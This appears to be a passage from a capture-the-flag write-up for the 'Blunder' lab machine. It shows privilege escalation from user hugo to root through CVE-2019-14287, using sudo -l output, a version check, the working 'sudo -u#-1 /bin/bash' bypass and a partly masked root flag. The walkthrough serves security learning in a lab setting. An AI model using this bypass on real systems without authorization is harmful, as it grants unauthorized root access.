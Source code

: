 ## Priv: hugo –> root

### Enumeration

`sudo -l` gives something interesting:

```

hugo@blunder:~$ sudo -l
Password: 
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash

```

This means that I can run `sudo /bin/bash` as any user except for root, which is a shame, as root is the user I want to run it as.

### CVE-2019-14287

The configuration above is supposed to stop `sudo` as running as the root user. There was a public CVE release in November 2019 about how there were other ways to enter root besides `root` that got around this restriction. This impacts `sudo` versions before 1.8.28. I can see Blunder is running 1.8.25:

```

hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1

```

When running `sudo`, you can enter `-u [user]` to say which user to run as. You can also enter the user as a number in the format `-u#[uid]`. root is used id 0, so I can try:

```

hugo@blunder:~$ sudo -u#0 /bin/bash
Password: 
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.

```

So far things are working as expected. The vulnerability is that I can enter user id -1, and `sudo` will treat that as root. It works:

```

hugo@blunder:~$ sudo -u#-1 /bin/bash
Password:
root@blunder:/home/hugo#

```

Now I can grab `root.txt`:

```

root@blunder:/root# cat root.txt
2f1f6d99************************

```